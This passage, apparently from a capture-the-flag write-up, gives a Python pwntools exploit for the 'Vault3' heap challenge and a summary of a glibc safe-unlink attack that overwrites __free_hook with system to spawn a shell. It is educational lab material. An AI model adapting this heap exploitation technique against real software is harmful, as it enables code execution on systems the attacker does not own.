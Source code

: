 ```python

malloc(0)
malloc(1)

free_hook = libc.symbols['__free_hook']
system = libc.symbols['system']
log.critical(f"Free hook: {free_hook:#x}")
log.critical(f"System: {system:#x}")
prev_size = 0x80
fake_size = 0x90
fd  = elf.sym.vaults-24
bk = elf.sym.vaults-0x10

payload = p64(0) + p64(0x80)+ p64(fd) + p64(bk) + p8(0)*0x60 + p64(prev_size) + p64(fake_size)
edit(0, payload)
free(1)
edit(0, p64(0)*3 + p64(free_hook-0x8))
edit(0,b'/bin/sh\x00'+p64(system))
free(0)
# gdb.attach(p)
p.interactive()
```

# 0x05 Summary

This writeup demonstrates a comprehensive Safe Unlink heap exploitation technique against the Vault3 challenge from ScriptCTF 2025. The challenge specifically uses glibc 2.30 without tcache, making it vulnerable to classic heap exploitation methods.

## Key Findings

**Binary Analysis:**

- 64-bit ELF with minimal protections (no PIE, no canaries, partial RELRO)
- Heap overflow vulnerability in the vault storage functionality
- Global `vaults` array storing heap pointers at a known address

**Exploitation Strategy:**

1. **Understanding the Environment:** The absence of tcache means freed chunks go directly to unsorted bins, enabling traditional unlink attacks
2. **Bypassing Safe Unlink:** Modern glibc implements integrity checks (`P->fd->bk == P && P->bk->fd == P`) to prevent arbitrary writes
3. **Crafting the Attack:** Created a fake chunk with carefully calculated `fd` and `bk` pointers targeting the global `vaults` array
4. **Achieving Arbitrary Write:** Successfully triggered unlink operation to gain write-what-where primitive
5. **Code Execution:** Overwrote `__free_hook` with `system` address and `/bin/sh` string to spawn a shell

## Technical Highlights
